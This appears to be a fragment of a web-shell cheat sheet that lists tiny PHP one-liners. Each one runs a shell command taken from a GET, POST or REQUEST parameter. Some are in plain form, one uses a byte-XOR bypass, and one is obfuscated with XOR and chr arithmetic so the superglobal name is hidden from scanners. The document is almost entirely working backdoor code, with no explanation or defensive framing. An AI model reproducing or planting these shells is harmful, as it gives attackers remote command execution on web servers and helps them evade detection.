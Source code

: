 PHP - Tiny with bypass:

```php
<?=`{${~"\xa0\xb8\xba\xab"}["\xa0"]}`;
```

PHP - Tiny with obfuscation:

```php
# Unobfuscated

<?=`$_GET[0]`?> 
<?=`$_POST[0]`?> 
<?=`{$_REQUEST['_']}`?>

# Obfuscated

<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
```


